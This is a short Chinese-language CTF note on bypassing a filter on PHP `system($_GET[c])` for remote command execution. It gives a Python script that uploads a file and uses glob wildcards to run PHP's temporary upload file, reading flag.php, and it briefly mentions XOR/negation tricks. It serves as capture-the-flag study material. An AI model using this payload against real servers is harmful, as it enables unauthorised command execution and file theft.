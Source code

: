 tags:: CTF/RCE, CTF/Shell/WAF绕过

	-
- # 参考
	- [[CTF/WP/CTFShow/web55]]
- # 方式一
	- 对于这样的语句：`system($_GET[c]);`
	- 可以执行上传的文件缓存
	- ```python
	  while True:
	      r = requests.post(
	          url,
	          params = {
	              "c": ". /[_-{][_-{][_-{]/[_-{][_-{][_-{]?????[@-[]"
	          },
	          files={
	              "file":("a.txt", "cat flag.php")
	          }
	      )
	      if r.text:
	          break
	  
	  print(r.text)
	  ```
- # 方式二
	- 使用异或、取反等操作
- # 方式三
	- [[CTF/WP/CTFShow/web57]]